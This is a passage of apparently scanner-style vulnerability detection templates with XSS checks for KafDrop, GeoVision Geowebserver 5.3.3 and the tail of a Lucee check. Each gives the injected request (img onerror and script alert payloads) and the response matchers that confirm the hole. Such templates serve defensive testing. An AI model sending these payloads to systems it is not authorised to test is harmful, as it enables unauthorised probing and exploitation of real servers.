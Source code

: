 **Type - word**
- words
    1. \<img src=a onerror=alert('{{randstr}}')>
    2. MissingIncludeException
    3. lucee-err
- part - body
- condition - and

---
# KafDrop - Cross-Site Scripting
## Description
- KafDrop contains a cross-site scripting vulnerability. It allows remote unauthenticated attackers to inject arbitrary HTML and/or JavaScript into the response returned by the server.
- severity - high
- tags - kafdrop,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/topic/e'%22%3E%3Cimg%20src=x%20onerror=alert(2)%3E
### Matchers

**Type - word**
- words
    1. Kafdrop
    2. \<img src=x onerror=alert(2)>
- part - body
- condition - and

**Type - status**
- status
    1. 500

---
# GeoVision Geowebserver 5.3.3 - Cross-Site Scripting
## Description
- GeoVision Geowebserver 5.3.3 and prior versions are vulnerable to several cross-site scripting / HTML injection / local file inclusion / XML injection / code execution vectors because the application fails to properly sanitize user requests.
- severity - high
- tags - geowebserver,xss,packetstorm
## Requests
### Step - 1
```
GET /Visitor/bin/WebStrings.srf?file=&obj_name=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}
Accept: */*

```
### Matchers
